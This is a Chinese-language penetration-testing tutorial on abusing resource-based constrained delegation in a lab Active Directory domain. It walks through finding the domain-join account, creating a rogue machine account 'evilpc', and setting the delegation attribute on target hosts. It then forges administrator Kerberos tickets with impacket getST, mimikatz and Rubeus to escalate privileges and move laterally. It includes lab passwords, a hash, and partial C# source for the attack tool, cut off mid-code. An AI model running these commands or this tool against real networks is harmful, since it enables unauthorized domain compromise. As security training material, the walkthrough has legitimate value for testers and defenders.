# 0x09 基于资源的约束委派利用

## 0x01 应用场景：

​    在大型内网域环境中，将机器加入到域环境中一般不会用域管权限，而是用一个专门加域的域用户去操作。那么当我们拿下该域用户的账号密码时，就可以把通过该域用户加入到域里的所有机器都拿下。

0.限制：只能在windows 2012及以上版本的域控才可以，因为08及以下的域控没有msDS-AllowedToActOnBehalfOfOtherIdentity这个属性





\1. 提权：当我们钓鱼拿下一台员工机器，发现是在域里面的，然后在电脑里发现addUser域用户的账号密码，因为需要addUser域用户将员工机器加入到域环境里，所以有可能会获得到addUser的账号密码。然后发现当前域用户并不在本地管理组里，就可以通过addUser域用户提权到adminsitrator。

\2. 横向拓展：在hack域中，addUser域用户负责将员工lm的机器或者web服务器web2008等机器加入到hack域里，那么当我们拿下addUser这个域用户的权限后，就可以拿下员工lm的机器和web服务器web2008。

环境模拟

 

```
hack域
角色            IP                    主机名                     服务器类型
dc:         192.168.52.2        windows_server_2016_dc          windows2016
web:        192.168.52.8        web2008                         windows2008
pc:         192.168.52.30       win7-pc                         windows07
domain user：    addUser     P@ssw0rd        加域账号
```

web2008 和 win7-pc 是由addUser域用户(addUser不是域管)加入到域环境里成为域机器，但是addUser并不是web2008|win7-pc 域机器的本地管理组成员。

win7-pc域机器的信息：模拟内网里的员工电脑

\1. 当前用户是lm域用户，但是lm域用户不是本地管理员成员。

\2. 由addUser域用户加入到域里，但是addUser域用户不是win7-pc域机器的本地管理组



web2008域机器的信息：模拟内网的web服务

\1. 由addUser域用户加入到域里，但是addUser域用户不是web2008域机器的本地管理组



## 0x02 利用：

只要获取到加域账号就可以。

### 0x02-1 寻找加域账号

 

```
查询ACL：powerview的脚本，IdentityReference：域用户，ObjectDN：域机器，ActiveDirectoryRights：权限
Get-ObjectAcl -ADSprefix "CN=Computers" |select IdentityReference,ObjectDN,ActiveDirectoryRights
查询每个域机器是由哪个域用户添加进域的,通过mS-DS-CreatorSID查看域用户的sid
AdFind.exe -h 192.168.52.2 -u lm -up Lm123*** -b "DC=hack,DC=local" -f "objectClass=computer" mS-DS-CreatorSID
```





 

```
dn:CN=WEB2008,CN=Computers,DC=hack,DC=local
>mS-DS-CreatorSID: S-1-5-21-675002476-827761145-2127888524-1619
sid2user.exe \\192.168.52.2 5 21 675002476 827761145 2127888524 1619
Name is addUser
Domain is HACK
Type of SID is SidTypeUser
```

查WEB2008是由哪个域用户加入到域机器里的



此时找到了域里的加域账号addUser

### 0x02-2 横向拓展

假设拿到了addUser用户，尝试和web2008建立ipc连接，发现并没有权限。



使用addUser域用户添加一个域机器账户evilpc，机器账户的密码是123456，并且对web2008域机器配置msDS-AllowedToActOnBehalfOfOtherIdentity属性

 

```
Addnew_MachineAccount.exe 域控IP 域的名字 域用户名 域用户密码 目标机器
Addnew_MachineAccount.exe 192.168.52.2 hack.local addUser P@ssw0rd web2008
```







使用impacket的getST生成票据，会在当前目录下生成administrator.ccache文件

目标机器安装impacket有点不现实，所以可以使用socks代理生成票据

 

```
getST.py -dc-ip 192.168.52.2 hack.local/evilpc\$:123456 -spn cifs/web2008.hack.local -impersonate administrator
```



使用mimikatz导入票据

 

```
kerberos::ptc 票据
kerberos::ptc C:\Users\lm\Desktop\administrator.ccache
```



 

```
klist           查询票据
klist purge     清空票据
```



成功获取权限，切记，这里一定要是web2008.hack.local，只是web2008是没有权限的



删除票据后，就没有权限了



或者可以尝试用Rubeus生成票据，但是本地失败了。

计算域机器evilpc$的hash

 

```
Rubeus.exe hash /user:evilpc$ /password:123456 /domain:hack.local
```



 

```
Rubeus.exe s4u /user:evilpc$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/web2008 /ptt
Rubeus.exe s4u /user:evilpc$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:host/web2008 /ptt
```





## 0x03 参考链接

 

```
https://mp.weixin.qq.com/s/Ue2ULu8vxYHrYEalEzbBSw
https://xz.aliyun.com/t/7454#toc-1
https://xz.aliyun.com/t/7217#toc-0
https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-AdminSDHolder/  查询acl
https://www.cnblogs.com/simon7s/p/12370183.htm  mimikatz导入ccache票据
```

## 0x04 Addnew_MachineAccount 源码

Addnew_MachineAccount.exe源码，使用C#编译



添加对activedirecty操作的dll的引用



第十九行需要改一下，将DC=hack,DC=local改为内网对应的域

 

```
using System;
using System.Text;
using System.Security.AccessControl;
using System.Security.Principal;
using System.Net;
namespace Addnew_MachineAccount
{
    class Program
    {
        static void Main(string[] args)
        {
            String DomainController = args[0];  // 域控IP
            String Domain = args[1];   // hack.local
            String username = args[2]; //域用户名
            String password = args[3]; //域用户密码
            String victimcomputer = args[4]; //需要进行提权的机器
            String new_MachineAccount = "evilpc"; //添加的机器账户
            String new_MachineAccount_password = "123456"; //机器账户密码
            String victimcomputer_ldap_path = "LDAP://CN=" + victimcomputer + ", CN=Computers,DC=hack,DC=local"; // 这里也需要改
            String machine_account = new_MachineAccount;
            String sam_account = machine_account + "$";
            String distinguished_name = "";
            String[] DC_array = null;
